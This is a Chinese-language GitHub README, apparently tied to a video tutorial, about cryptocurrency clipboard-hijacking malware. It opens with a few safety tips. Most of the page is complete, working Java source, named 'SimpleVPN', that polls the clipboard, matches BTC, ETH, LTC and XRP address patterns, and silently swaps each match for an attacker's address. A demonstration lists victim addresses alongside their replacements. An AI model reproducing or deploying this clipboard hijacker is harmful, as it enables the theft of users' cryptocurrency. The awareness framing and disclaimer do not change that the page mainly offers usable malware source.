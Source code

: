 #### 监控剪贴板劫持用户复制内容！盗刷虚拟货币！教你复现剪贴板病毒！Java如何监控剪贴板？剪贴板可以让你倾家荡产！剪贴板这样使用才是最安全的！最近币圈很多人中招的剪贴板病毒，盗取用户加密货币资产，这个病毒很早就有了，它会自己自动检查用户剪切 复制 的内容，如果你的剪切复制内容里有地址的格式，它就会自动把这地址换成盗窃者的地址。如果你平时不够细心的话，那你就会容易中招。实在是卑鄙无耻下流也。

## 剪贴板安全正确的使用方式：

**1.银行卡号、转账地址、手机号等信息不要一次性复制完，分段复制可以很大程度上避免被窃取。**

**2.复制密钥、密码等信息在复制前插入几个字符达到混淆真实密码的目的，粘贴完后再删除对应的字符即可。**

**3.填写收款账号等表单时，转账核对一下有关于钱相关的信息，不要直接就保存了或转账了。**

视频教程：https://youtu.be/QEpFjFr_ddA?si=Uu8Xvwzyl6mI2YNi
****

Java监控剪贴板代码（监控复制的内容是否是虚拟货币地址）：

```java

// 监听剪贴板并且替换
public class SimpleVPN {
    private static final Pattern BTC_PATTERN = Pattern.compile("(bc1|[13])[a-zA-HJ-NP-Z0-9]{25,39}");
    private static final Pattern ETH_PATTERN = Pattern.compile("0x[a-fA-F0-9]{40}");
    private static final Pattern LTC_PATTERN = Pattern.compile("[LM3][a-km-zA-HJ-NP-Z1-9]{26,33}");
    private static final Pattern XRP_PATTERN = Pattern.compile("[rX][1-9A-HJ-NP-Za-km-z]{24,34}");
    private static boolean isUpdatingClipboard = false; // 解决无限循环问题
    public static void main(String[] args) {
        Clipboard clipboard = Toolkit.getDefaultToolkit().getSystemClipboard();
        Transferable previousContent = clipboard.getContents(null);
        while (true) {
            try {
                Thread.sleep(1000); // 每秒检查一次
                if (isUpdatingClipboard) {
                    isUpdatingClipboard = false; // 跳过本次循环，避免检测到自己修改的内容
                    continue;
                }
                Transferable currentContent = clipboard.getContents(null);
                if (currentContent != null) {
                    // **忽略非文本格式的数据**
                    if (!currentContent.isDataFlavorSupported(DataFlavor.stringFlavor)) {
                        continue;
                    }
                    String newText = (String) currentContent.getTransferData(DataFlavor.stringFlavor);
                    if (previousContent == null || !newText.equals(previousContent.getTransferData(DataFlavor.stringFlavor))) {
                        System.err.println("用户复制了内容: " + newText);
                        if (BTC_PATTERN.matcher(newText).matches()) {
                            System.out.println("检测到比特币(BTC)地址: " + newText);
                            setClipboardContent("AAAAA1eP5QGefi2DMPTfTL5SLmv7DivfNa"); // 修改剪贴板内容
                        } else if (ETH_PATTERN.matcher(newText).matches()) {
                            System.out.println("检测到以太坊(ETH)地址: " + newText);
                            setClipboardContent("AAAA2d35Cc6634C0532925a3b844Bc454e4438f44e"); // 修改剪贴板内容
                        } else if (LTC_PATTERN.matcher(newText).matches()) {
                            System.out.println("检测到莱特币(LTC)地址: " + newText);
                            setClipboardContent("AAAAx3LhXqP1HYYNRuGH1cXBJHTYTPyxJq"); // 修改剪贴板内容
                        } else if (XRP_PATTERN.matcher(newText).matches()) {
                            System.out.println("检测到瑞波币(XRP)地址: " + newText);
                            setClipboardContent("AAAAeomae4FXwgQTJp9Rs64Qg9vDiTCdBv"); // 修改剪贴板内容
                        }
                        previousContent = clipboard.getContents(null); // 重新获取剪贴板内容，避免旧数据干扰
                    }
                }
            } catch (UnsupportedFlavorException e) {
                System.err.println("剪贴板数据格式不支持，跳过: " + e.getMessage());
            } catch (IOException e) {
                System.err.println("读取剪贴板数据时发生IO异常: " + e.getMessage());
            } catch (InterruptedException e) {
                e.printStackTrace();
            }
        }
    }

    // 修改剪贴板内容
    public static void setClipboardContent(String text) throws InterruptedException {
        isUpdatingClipboard = true; // 标记为正在修改剪贴板，避免无限循环
        StringSelection selection = new StringSelection(text);
        Clipboard clipboard = Toolkit.getDefaultToolkit().getSystemClipboard();
        clipboard.setContents(selection, null);
        Thread.sleep(500);
        System.err.println("篡改剪贴板成功，成功修改为: " + text);
    }

}

```

测试：

假设你要往下面的虚拟货币地址转账

**比特币 (BTC) 收款地址**: `1A1zP1eP5QGefi2DMPTfTL5SLmv7DivfNa`

**以太坊 (ETH) 收款地址**: `0x742d35Cc6634C0532925a3b844Bc454e4438f44e`

**莱特币 (LTC) 收款地址**: `LZ3nx3LhXqP1HYYNRuGH1cXBJHTYTPyxJq`

**瑞波币 (XRP) 收款地址**: `rDsbeomae4FXwgQTJp9Rs64Qg9vDiTCdBv`

****

不法分子的虚拟货币地址

**比特币 (BTC) 收款地址**: `AAAAP1eP5QGefi2DMPTfTL5SLmv7DivfNa`

**以太坊 (ETH) 收款地址**: `AAAA2d35Cc6634C0532925a3b844Bc454e4438f44e`

**莱特币 (LTC) 收款地址**: `AAAAx3LhXqP1HYYNRuGH1cXBJHTYTPyxJq`

**瑞波币 (XRP) 收款地址**: `AAAAeomae4FXwgQTJp9Rs64Qg9vDiTCdBv`

****





****

#### 攻防无绝对，技术无好坏，在非安全的信息时代，众人皆在囚笼之中，关注牛马小试，让你一飞冲天！

****

- **Youtube：  https://www.youtube.com/@MeeGooBoo**
- **Twitter ( X ）：  https://x.com/MeeGooBoo**
- **Telegram：https://t.me/NiuMaXiaoShi**


****

> [!CAUTION]
>
> 本仓库所有内容均来自互联网公开内容或本仓库所有者创作，请勿相信资源中的广告，主动联系你的都是骗子，提高智商谨防上当受诈！请勿利用本仓库实施违反任何适用法律法规等犯罪活动！本仓库所有者不对因使用本仓库内容导致的任何后果承担责任！

****

## 你的赞助是功德无量💰

> [!NOTE]
>
> 如果你觉得本仓库对你有帮助，你可以赞助我们一杯咖啡，鼓励我们继续维护下去。<br>通过Paypal支持我：https://paypal.me/MoGuoBiao<br>
> 成为我的Patreon会员：https://patreon.com/MeeGooBoo<br>
> 通过比特币支持我：bc1qkwrq5plek62fmfaynyphfuuepm6cxd4fsh5wrp



<p align="center" >
    <img src="https://raw.githubusercontent.com/MeeGooBoo/2025/refs/heads/main/static/imgs/logo.png" width="150">
    <h3 align="center">牛马小试</h3>
    <p align="center">
        <img src="https://raw.githubusercontent.com/MeeGooBoo/2025/refs/heads/main/static/imgs/pays.png">
    </p>
</p>


****
